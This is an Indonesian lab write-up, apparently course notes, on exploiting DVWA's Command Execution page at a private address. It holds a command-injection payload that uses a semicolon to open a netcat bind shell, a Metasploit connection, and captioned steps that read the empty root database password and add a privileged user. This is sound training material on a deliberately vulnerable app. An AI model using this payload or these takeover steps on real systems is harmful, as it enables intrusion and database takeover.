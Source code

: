 # DVWA | Lesson 4
## Konfigurasi

Alamat target DVWA `http://10.151.34.170`

## Skenario

Login ke DVWA

Masuk ke menu Command Execution

Masukkan string berikut pada form
```
192.168.1.106; mkfifo /tmp/pipe; sh /tmp/pipe | nc -lp 4444 > /tmp/pipe
```

Berbeda dengan yang terdapat pada tutorial, pada VM exploitable ini perlu ditambahi perintah `-p` diikuti dengan `4444` pada `nc` agar port dapat terbuka.

Selanjutnya masuk ke Backtrack dan jalankan program msfconsole pada terminal
```
# msfconsole
```
![alt text](./l4-bt1.png)

Masukkan perintah seperti berikut, beserta IP dari target, yaitu `10.151.34.170`.

![alt text](./l4-bt2.png)

Setelah itu jalankan perintah `exploit` pada msfconsole.

![alt text](./l4-bt3.png)

Ternyata user yang menjalankan php yaitu `www-data`.

![alt text](./l4-bt4.png)

Proses apache2 dijalankan oleh user `www-data` dan direktori dvwa terdapat pada `/var/www/dvwa`.

![alt text](./l4-bt5.png)

User dari database adalah `root` dan passwordnya tidak ada alias string kosong.

![alt text](./l4-bt6.png)

Selanjutnya eksploitasi database dvwa.

![alt text](./l4-bt7.png)

Menambahkan user.

![alt text](./l4-bt8.png)

Eksplorasi table.

![alt text](./l4-bt9.png)

Membuat user dengan privileges baru.

## Hasil

![alt text](./l4-bt10.png)
